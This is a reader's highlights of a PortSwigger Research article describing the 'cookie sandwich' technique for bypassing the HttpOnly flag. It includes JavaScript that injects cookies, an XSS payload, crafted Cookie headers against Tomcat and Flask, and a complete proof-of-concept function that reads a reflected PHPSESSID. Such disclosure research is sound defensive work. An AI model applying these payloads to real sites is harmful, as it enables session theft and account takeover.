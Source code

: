 ```yaml
---
author: "PortSwigger Research"
aliases: "Stealing HttpOnly Cookies With the Cookie Sandwich Technique"
tags: RW_inbox, readwise/articles
url: https://portswigger.net/research/stealing-httponly-cookies-with-the-cookie-sandwich-technique
date: 2025-01-22
---
```

# Stealing HttpOnly Cookies With the Cookie Sandwich Technique

![rw-book-cover](https://portswigger.net/cms/images/38/f5/ffaa-twittercard-tweetstststs.png)

## Highlights


In this post, I will introduce the "cookie sandwich" technique which lets you bypass the HttpOnly flag on certain servers.
> [View Highlight](https://read.readwise.io/read/01jj7awcptqnj9hhm78kxc8jhv)



The cookie sandwich technique manipulates how web servers parse and handle cookies when special characters are used within them. By cleverly placing quotes and legacy cookies, an attacker can cause the server to misinterpret the structure of the cookie header, potentially exposing HttpOnly cookies to client-side scripts.
> [View Highlight](https://read.readwise.io/read/01jj7ax1c2cwzhfsw8655ka650)



The following code demonstrates how to create a cookie sandwich to steal a restricted cookie value:
 ``document.cookie = `$Version=1;`; document.cookie = `param1="start`; // any cookies inside the sandwich will be placed into param1 value server-side document.cookie = `param2=end";`;``
 The Cookie header in the request/response might appear as:
 `GET / HTTP/1.1 Cookie: $Version=1; param1="start; sessionId=secret; param2=end" => HTTP/1.1 200 OK Set-Cookie: param1="start; sessionId=secret; param2=end";`
> [View Highlight](https://read.readwise.io/read/01jj7b60nd0ny05jexgxm09hsh)



If the application improperly reflects the param1 cookie in the response or does not have the HttpOnly attribute, the entire cookie string, including any HttpOnly session cookie sent by the browser between param1 and param2 - can be exposed.
> [View Highlight](https://read.readwise.io/read/01jj7ba0kqj8mmgkj8g35qymf2)



A "cookie sandwich" attack against a Flask application might look like this:
 `GET / HTTP/1.1 Cookie: param1="start; sessionId=secret; param2=end" => HTTP/1.1 200 OK Set-Cookie: param1="start\073 sessionId=secret\073 param2=end";`
> [View Highlight](https://read.readwise.io/read/01jj7ba8431rm7cfvntmf4qvxp)



Real world example
> [View Highlight](https://read.readwise.io/read/01jj7bd423g0wd80mjd9vtxtzx)



Analytics often employ cookies or URL parameters to monitor user actions, and rarely validate the tracking ID.
> [View Highlight](https://read.readwise.io/read/01jj7bdb32wqssh5s1n6rzcjzr)



<script> {"visitorId":"deadbeef"} </script>
> [View Highlight](https://read.readwise.io/read/01jj7bddqvg410wz7sw42zdrjv)



Stealing an HttpOnly PHPSESSID cookie
> [View Highlight](https://read.readwise.io/read/01jj7bdm55r1gb91e2jrk9gray)



I encountered a vulnerable application with a reflected XSS vulnerability on an error page.
> [View Highlight](https://read.readwise.io/read/01jj7bdyecsbcj171bp1fpbe35)



Step 1: Identifying the XSS Vulnerability
 The vulnerable application reflected certain link and meta attributes without proper escaping.
> [View Highlight](https://read.readwise.io/read/01jj7be6sytk3zaabdqgy7wq9g)



<link rel="canonical" 
 oncontentvisibilityautostatechange="alert(1)" 
 style="content-visibility:auto">
> [View Highlight](https://read.readwise.io/read/01jj7bf6w3m0nycm21jgt5npdy)



Step 2: Finding the Exposed Cookie Parameter
> [View Highlight](https://read.readwise.io/read/01jj7bfcay17y9ndk8p8zzk5q0)



my next objective was to locate an HttpOnly cookie associated with the domain. Initially, I didn’t find any directly accessible analytics JavaScript, but I discovered a tracking domain that reflected the session ID parameter in the JSON response body.
> [View Highlight](https://read.readwise.io/read/01jj7bgrg794bew5xw9gvt9v00)



`GET /json?session=ignored HTTP/1.1 Host: tracking.example.com Origin: https://www.example.com Referer: https://www.example.com/ Cookie: session=deadbeef;` `HTTP/2 200 OK Content-Type: application/json;charset=UTF-8 Access-Control-Allow-Origin: https://www.example.com Access-Control-Allow-Credentials: true {"session":"deadbeef"}`
> [View Highlight](https://read.readwise.io/read/01jj7bh70bc2r46c81831vpmfg)



This website is a great candidate to use in our attack because:
 • reflects cookie value in the response body
 • allows cross origin request from vulnerable domain
> [View Highlight](https://read.readwise.io/read/01jj7bm9kzmw93cvc2rpsjgz78)



Step 3: Exploiting Cookie Downgrade for Exfiltration
> [View Highlight](https://read.readwise.io/read/01jj7bmr39k79fsxr9remy1pcz)



interesting behaviour: although the session URL query parameter is mandatory, the server overwrites its value with the one from the Cookie header. Since the backend runs on Apache Tomcat, I leveraged the phantom $Version cookie to switch to [RFC2109](https://datatracker.ietf.org/doc/html/rfc2109) and execute a cookie sandwich attack.
> [View Highlight](https://read.readwise.io/read/01jj7bneqkpv3na4pjkb8efr1h)



For the $Version cookie to be sent first, it must either be created earlier or have a path attribute longer than all other cookies.
> [View Highlight](https://read.readwise.io/read/01jj7bpsnhdphdb3cmsaz01yhf)



By using a carefully crafted Cookie header, I could manipulate the order of cookies and exploit the reflection vulnerability to capture the HttpOnly PHPSESSID cookie. Here’s an example of the malicious request I used:
 `GET /json?session=ignored Host: tracking.example.com Origin: https://www.example.com Referer: https://www.example.com/ Cookie: $Version=1; session="deadbeef; PHPSESSID=secret; dummy=qaz"` `HTTP/2 200 OK Content-Type: application/json;charset=UTF-8 Access-Control-Allow-Origin: https://www.example.com Access-Control-Allow-Credentials: true {"session":"deadbeef; PHPSESSID=secret; dummy=qaz"}`
> [View Highlight](https://read.readwise.io/read/01jj7bqk44kfbdnc5p7ngf6cw2)



Step 4: Putting It All Together
 To summarize, here’s the process of the attack:
 • The user visits a page containing the oncontentvisibilityautostatechange XSS payload.
 • The injected JavaScript sets cookies $Version=1, session="deadbeef, both cookies have Path value /json to change cookie order.
 • Finally the script appends the cookie dummy=qaz".
 • The script then makes a CORS request to the tracking application endpoint, which reflects the manipulated PHPSESSID cookie in the JSON response.
> [View Highlight](https://read.readwise.io/read/01jj7bs0kp5rxmh6bgtxay63g7)



async function sandwich(target, cookie) { // Step 1: Create an iframe with target src and wait for it 
 const iframe = document.createElement('iframe'); const url = new URL(target); const domain = url.hostname; const path = url.pathname; iframe.src = target; // Hide the iframe 
 iframe.style.display = 'none'; document.body.appendChild(iframe); // Optional: Add your code to check and clean client's cookies if needed 
 iframe.onload = async () => { // Step 2: Create cookie gadget 
 document.cookie = `$Version=1; domain=${domain}; path=${path};`; document.cookie = `${cookie}="deadbeef; domain=${domain}; path=${path};`; document.cookie = `dummy=qaz"; domain=${domain}; path=/;`; // Step 3: Send a fetch request 
 try { const response = await fetch(`${target}`, { credentials: 'include', }); const responseData = await response.text(); // Step 4: Alert response 
 alert(responseData); } catch (error) { console.error('Error fetching data:', error); } }; } setTimeout(sandwich, 100, 'http://example.com/json', 'session');
> [View Highlight](https://read.readwise.io/read/01jj7bs4ev7j48j8m1z61njtk8)

